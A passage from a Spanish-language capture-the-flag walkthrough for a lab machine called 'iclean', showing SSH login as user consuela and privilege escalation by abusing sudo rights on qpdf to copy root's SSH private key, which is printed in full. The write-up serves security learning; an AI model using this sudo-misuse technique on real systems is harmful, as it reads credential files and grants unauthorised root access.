 ![Hash](../assets/images-Iclean/Iclean18.png)

obtenemos la contraseña del usuario consuela, me conectare por ssh
```bash
ssh consuela@10.10.11.12
consuela@10.10.11.12's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
```
Ya puedo ver la flag del usuario
```bash
consuela@iclean:~$ cat user.txt 
*****************43f9953
```
Como ya estoy como el usuario consuela ahora vere la forma de escalar a root
 
 -----------
### Root
Comprobando para ver si tenia algun privilegio como sudo y veo que con el usuario consuela puedo ejecutar la herramienta qpdf
```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```
Procedo a investigar de que trata esta herramienta, encuentro la [documentacion](https://qpdf.readthedocs.io/en/stable/cli.html) de esta herramienta, y leyendo un poco veo que se  puede copiar cualquier archivo y pegarlo en cualquier directorio que tengamos acceso.
Por lo tanto decido copiarme la id_rsa de root con lo siguiente comandos `--add-attachment` para especificar el archivo que queremos copiar y la opcion `--empyt` para especificarle donde queremos que se guarde
```bash
consuela@iclean:~$ sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
consuela@iclean:~$ ls
id_rsa  user.txt
consuela@iclean:~$ cat id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
Al id_rsa de root el cual contiene su clave privada de SSH, procedo a copiarlo en mi maquina de atacante y le aplico los permisos 600
```bash
```
